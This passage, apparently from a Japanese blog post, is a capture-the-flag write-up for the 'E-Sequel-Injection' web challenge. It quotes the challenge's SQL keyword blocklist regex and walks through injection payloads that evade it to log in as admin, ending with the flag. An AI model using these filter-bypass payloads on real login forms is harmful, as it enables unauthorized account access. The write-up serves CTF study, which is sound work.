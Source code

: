 ### E-Sequel-Injection

[500pts, 10solved, hard, web]
個人的に好きな分野です。いくつかの単語が使用禁止されているときに、それを Bypass してください。という jail escape 系と解釈しています。(自分の中では)
まず、方針を考えると、admin としてログインするのが最終目標なので、
1.admin の password の leak->username でリークさせられないだろうか？
2.admin として、後ろでなんとかする
の 2 つが思い浮かびました。
次に、与えられたソースコードをよく眺めます。

```text
$pattern = '/(\s|UNION|OR|=|TRUE|FALSE|>|<|IS|LIKE|BETWEEN|REGEXP|--|#|;|\/|\*|\|)/i';
```

ここで禁止される単語がわかりますね。OR が潰されているので passw"or"d もダメです。というわけで、1.の方針はやばそうです。
password だけでなんとかしてみます。[SQLi についての記事](https://medium.com/@gregIT/ringzer0team-ctf-sqli-challenges-part-1-6ceff556f4a8)を見ると、比較系は以下のようになっています

```text
= (comparison), <=>, >=, >, <=, <, <>, !=, IS, LIKE, REGEXP, IN
BETWEEN, CASE, WHEN, THEN, ELSE
NOT
AND, &&
XOR
OR, ||
= (assignment), :=
```

`IN`, `NOT`あたりが使えそうですね。
実際にいろいろ打ち込んでいきます。

`' or 1=1 #` 定番。スペースとシャープとイコールと OR で引っかかります。
`'or(1=1)#` スペースなしで出来ました
`'IN('Tokyo')#` #だけでできるようになりました
`'IN('Tokyo')order by 'Tokyo'` or が入っています
`'IN('Tokyo')and!'0'` これで通りました。 -> `SELECT username from users where username='admin' and password=''IN('Tokyo')and!'0'`
流れとしては、まずは禁止文字を使って、徐々に禁止文字の種類を減らすように頑張っていくとよさそうです。
`KosenCTF{Smash_the_holy_barrier_and_follow_me_in_the_covenant_of_blood_and_blood}`

# 最後に

もっともっと精進して、一つでも多くの flag を速く通せるようにがんばりたいです。悔しいです。
作問者はすごい人々だなあと思いました。ツールゲーではなく、頭をひねるものが多くてとても楽しかったです。ありがとうございました。

以降は、2021/10/05 に追記しました。

# 復習

復習をします。

## basic_crackme

